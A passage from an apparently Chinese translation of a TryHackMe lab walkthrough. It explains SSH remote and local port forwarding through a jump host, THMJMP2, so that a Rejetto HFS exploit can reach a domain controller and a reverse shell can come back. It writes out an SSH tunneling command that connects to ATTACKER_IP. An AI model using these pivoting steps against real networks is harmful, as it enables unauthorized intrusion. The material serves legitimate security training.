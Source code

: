 </div>

考虑到这一点，我们可以使用 SSH 将攻击者的机器上的一些端口转发到 THMJMP2（用于 Web 服务器的 SRVPORT 和用于接收反向 Shell 的 LPORT），并通过 THMJMP2 进行跳板访问，以达到连接到 THMDC 上的 RPORT。我们需要在两个方向上进行三次端口转发，这样所有漏洞的交互都可以通过 THMJMP2 进行代理：

<div style={{textAlign:'center'}}>

![隧道 三次端口转发示意](img/image_20231239-123913.png)

</div>

Rejetto HFS 将在 THMDC 上的端口 80 上监听，因此我们需要通过 THMJMP2 使用远程端口转发将该端口隧道传回攻击者的机器。由于攻击盒（attackbox）的端口 80 已被另一个服务占用，我们需要将 THMDC 上的端口 80 链接到攻击盒当前未使用的某个端口上。我们可以使用端口 8888。在 THMJMP2 上运行 SSH 进行端口转发时，我们需要在命令中添加 `-R 8888:thmdc.za.tryhackme.com:80`。

对于 SRVPORT 和 LPORT，让我们随意选择两个随机端口。为了演示目的，我们将设置 `SRVPORT=6666` 和 `LPORT=7878` ，但请确保使用不同的端口，因为实验室与其他学生共享，如果两个人选择相同的端口，尝试转发它们时会出现端口已在 THMJMP2 上使用的错误。

要将这些端口从攻击者的机器转发到 THMJMP2，我们将使用本地端口转发，通过将 `-L *:6666:127.0.0.1:6666` 和 `-L *:7878:127.0.0.1:7878` 添加到我们的 SSH 命令中。这将在 THMJMP2 上绑定这两个端口，并隧道传输任何连接回我们的攻击者机器。

将整个命令放在一起，我们将得到以下内容：

```shell title="THMJMP2: Command Prompt"
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

:::tip

如果你正在使用 AttackBox 并且之前加入过其他网络房间，请确保将分配给面向 lateralmovementandpivoting 网络的隧道接口的 IP 地址选为你的 ATTACKER_IP，否则你的反向 Shell / 连接可能无法正常工作。为了方便起见，连接到这个网络的接口名为 lateralmovement，所以你可以通过运行 ip add show lateralmovement 来获取正确的 IP 地址。

<div style={{textAlign:'center'}}>

![AttackBox 网络信息](img/image_20231242-124234.png)
